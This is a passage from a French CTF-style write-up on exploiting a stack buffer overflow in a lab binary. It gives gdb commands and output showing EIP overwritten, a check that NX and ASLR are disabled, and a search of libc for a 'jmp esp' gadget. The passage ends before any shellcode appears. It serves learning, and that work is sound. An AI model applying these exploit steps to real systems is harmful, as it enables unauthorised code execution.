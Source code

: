 Visiblement non, on a écrasé EIP. Voyons l'état de la stack au moment de l'exploitation :

```bash
(gdb) r `python -c 'print "A"*400'`
Starting program: /home/underdist/.bin/echo `python -c 'print "A"*400'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info reg
eax            0x0      0
ecx            0xb7fd64c0       -1208130368
edx            0xb7fd7340       -1208126656
ebx            0xb7fd5ff4       -1208131596
esp            0xbffff5d0       0xbffff5d0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x41414141       0x41414141
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffff5d0:      'A' <repeats 92 times>
```

Nice. Le registre esp pointe vers des données à nous, à priori sur la fin de notre chaine.

Dernière interrogation : NX est-il activé ? Un coup dans `Cutter` nous indique que non. L'exploitation devrait être triviale, on va pouvoir se passer de ROP.

Je voudrais juste écraser l'adresse de retour par celle d'un `jmp esp` mais je ne trouve aucune instruction correspondante dans le binaire (normal vu qu'il est très court et linké dynamiquement, il a un jeu d'instructions limité).

Comme l'ASLR n'est pas activé on va fouiller dans la libc qui est chargée toujours à la même adresse :

```
(gdb) info proc mappings
process 5312
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0       /home/underdist/.bin/echo
         0x8049000  0x804a000     0x1000          0       /home/underdist/.bin/echo
        0xb7e89000 0xb7e8a000     0x1000          0        
        0xb7e8a000 0xb7fd4000   0x14a000          0        /lib/i386-linux-gnu/libc-2.13.so
        0xb7fd4000 0xb7fd6000     0x2000   0x14a000        /lib/i386-linux-gnu/libc-2.13.so
        0xb7fd6000 0xb7fd7000     0x1000   0x14c000        /lib/i386-linux-gnu/libc-2.13.so
        0xb7fd7000 0xb7fda000     0x3000          0        
        0xb7fde000 0xb7fe1000     0x3000          0        
        0xb7fe1000 0xb7fe2000     0x1000          0           [vdso]
        0xb7fe2000 0xb7ffe000    0x1c000          0        /lib/i386-linux-gnu/ld-2.13.so
        0xb7ffe000 0xb7fff000     0x1000    0x1b000        /lib/i386-linux-gnu/ld-2.13.so
        0xb7fff000 0xb8000000     0x1000    0x1c000        /lib/i386-linux-gnu/ld-2.13.so
        0xbffdf000 0xc0000000    0x21000          0           [stack]
(gdb) find /b 0xb7e8a000, 0xb7fd4000, 0xff, 0xe4
0xb7e8ca35
0xb7fa1593
```
